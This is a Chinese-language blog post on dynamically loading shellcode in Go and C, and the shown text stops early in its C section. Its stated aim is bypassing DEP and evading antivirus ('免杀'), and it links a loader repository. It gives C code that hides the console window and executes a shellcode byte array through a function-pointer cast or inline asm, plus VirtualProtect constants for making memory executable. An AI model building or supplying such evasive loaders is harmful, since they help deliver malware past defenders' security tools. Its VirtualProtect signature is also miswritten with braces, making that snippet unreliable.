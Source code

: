 ```yaml
---
layout: post
title: Golang动态加载shellcode
summary: Golang修改页保护属性绕过DEP，通过syscall或pointer cast执行，实现分离免杀
featured-img: go-shellcode-loader
---
```


加载器repo：https://github.com/EddieIvan01/gld

本文相关的代码可以在https://github.com/EddieIvan01/gld/tree/master/sample找到

## 在C/Cpp中动态加载shellcode

简述C/Cpp动态加载shellcode

### Cast char array ptr to function ptr

低版本系统中将函数指针指向shellcode数据段就OK了，或者在VS编译X86时嵌入asm

```c
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char buf[] = {...};

int main() {
    ((void(*)(void))&buf)();
    
    // ((void(WINAPI*)(void))&buf)();
    
    /*
    __asm {
        mov eax, offset buf
        jmp eax
    }
    */
}
```

### Win32API VirtualProtect

高版本中默认开启DEP(Data Execution Prevention)，数据段默认仅有RW权限，代码段为READONLY权限

```c
// constants
#define PAGE_NOACCESS           0x01    
#define PAGE_READONLY           0x02    
#define PAGE_READWRITE          0x04    
#define PAGE_WRITECOPY          0x08    
#define PAGE_EXECUTE            0x10    
#define PAGE_EXECUTE_READ       0x20    
#define PAGE_EXECUTE_READWRITE  0x40    
#define PAGE_EXECUTE_WRITECOPY  0x80 

// function signature
BOOL VirtualProtect{ 
    LPVOID lpAddress,
    DWORD dwsize,
    DWORD flNewProtect,
    PDWORD lpflOldProtect
}
```
